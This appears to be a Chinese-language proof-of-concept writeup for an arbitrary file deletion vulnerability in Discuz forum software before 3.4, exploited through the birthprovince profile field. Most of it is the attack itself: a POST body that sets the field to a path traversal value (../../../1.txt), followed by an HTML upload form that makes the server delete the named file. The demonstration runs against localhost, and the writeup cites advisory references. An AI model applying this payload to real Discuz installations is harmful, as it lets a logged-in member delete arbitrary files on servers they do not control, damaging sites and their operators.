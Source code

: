 # Discuz_＜3.4_birthprovince_前台任意文件删除.assets

## Affected Version

Discuz < 3.4 版本

需要会员身份登陆站点。

下载地址： 链接: https://pan.baidu.com/s/1hsOoSte 密码: nvjj


## PoC


测试：

1. 为了不破坏原有程序，在根目录下新建 1.txt 作为演示。

![1](Discuz_＜3.4_birthprovince_前台任意文件删除.assets/1.PNG)

2. 登陆前台，访问 http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base

先发起一个POST请求 

    birthprovince=../../../1.txt&profilesubmit=1&formhash=18a19dce
    // formhash 需要右键查看源代码得到

成功后，个人信息已经被修改成如下:

![changed](Discuz_＜3.4_birthprovince_前台任意文件删除.assets/changed.PNG)

3. 最后，本地提交POST表单删除文件 1.txt

表单内容：

    <form action="http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="18a19dce"/></p>
    <input type="text" name="profilesubmit" value="1"/></p>
    <input type="submit" value="Submit" />
    </from>

随便上传一个图片提交会导致删除 birthprovince 设置的文件名称，在这里是 1.txt。

## References

1. http://www.freebuf.com/vuls/149904.html
2. http://www.freebuf.com/articles/system/149810.html
